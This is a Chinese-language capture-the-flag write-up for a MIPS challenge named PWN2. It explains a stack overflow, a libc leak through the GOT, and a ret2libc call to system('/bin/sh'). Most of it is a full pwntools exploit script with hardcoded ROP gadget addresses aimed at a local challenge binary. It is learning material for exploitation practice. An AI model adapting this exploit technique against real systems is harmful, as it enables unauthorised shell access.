 ## PWN2 WriteUp

### 考点： 一道 Mips 指令的 rop 的题目，需要对 mips 指令有一定的熟悉



### 解题步骤

1. 逆向代码，在 vuln 函数中存在一处栈溢出

![](https://raw.githubusercontent.com/selfishspring/blogphoto/master/20191127124107.png)

2. 但是没有 system 函数，需要进行 ret2libc 的利用，先泄露出 got 表里面的内容，之后调用 system 函数即可。

![](https://raw.githubusercontent.com/selfishspring/blogphoto/master/20191127124137.png)

3. /bin/sh 字符串在 libc 中也可以找到，直接调用 system("/bin/sh") 即可。



### EXP

```
from pwn import *

#context.log_level="debug"

r = remote("127.0.0.1",8881)
#r = process("./build_pwn2.sh")
elf = ELF("./pwn2")
libc = ELF("/home/h4lo/mipsel-env/lib/libuClibc-0.9.33.2.so")


payload = "H4lo"
#payload += p32(0x00410AA0)

r.recvuntil("What's your name:")
r.sendline(payload)

sleep(0.2)
r.recv()

sleep(0.2)

# gadget1
payload = p32(1) * 9
payload += p32(0x004006C8)

#payload += p32(elf.plt['puts'])	# fp
payload += p32(1)

payload += "a" * 0x18
payload += 'a' * 4 # s0
#payload += p32(elf.got['puts']) # s1
payload += p32(0x00410B58)
payload += p32(0x0040092C) # s2


payload += 'a' * 4 # s3
payload += p32(0x004007A4) # ra


payload += 'a'*0x20
payload += p32(0x004007C4)

sleep(0.2)
r.send(payload)

r.recv()
#success(a)
libc_addr = u32(r.recv(4))-libc.symbols['puts']

success("libc_addr: " + hex(libc_addr))

r.recv()
#r.send(payload)
system_addr = libc_addr + libc.symbols['system']
binsh_addr = libc_addr + 0x9bc48



# gadget2
payload = 'a'*0x24
payload += p32(0x004006C8)

payload += 'a'*0x1c
payload += 'a'*4 #s0
payload += p32(binsh_addr)
payload += p32(system_addr)
payload += 'a'*4
payload += p32(0x004007A4)

r.send(payload)


r.interactive()

```

